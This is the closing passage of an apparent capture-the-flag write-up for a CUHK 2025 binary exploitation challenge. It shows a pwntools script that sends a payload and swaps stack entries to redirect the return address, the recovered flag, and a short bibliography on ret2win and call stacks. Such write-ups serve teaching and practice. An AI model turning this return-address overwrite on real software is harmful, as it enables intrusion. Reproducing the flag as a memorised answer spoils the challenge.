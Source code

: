 ```py
io.sendline(payload)
io.recvuntil(b'> ')
io.sendline(b'swap 27 0') # swap 27 with 0 to put converted address

io.recvuntil(b'> ')

io.sendline(b'swap 33 0') # swap 33 with 0 to swap to return address
io.sendline(b'finish') 
result = io.recvall()

if b"hidden" in result:
    print(f"Found!")
    print(result)
```

```
Output:
cuhk25ctf{u-Sti11-L3aRN-tHe-BaSic-PwN-Fu-0f-CalCulATInG-AddreSs____JuSt-ThAT-IT-doEs-Not-reAllY-HaVE-MuCh-T0-dO-With-MATHS}
```


# Bibliography
1. [Ret2win - ir0nstone](https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win)
2. [Stack - Wikipedia](https://en.wikipedia.org/wiki/Call_stack)
3. [Array - Study.com](https://study.com/academy/lesson/stacks-in-c-programming-structure-implementation.html)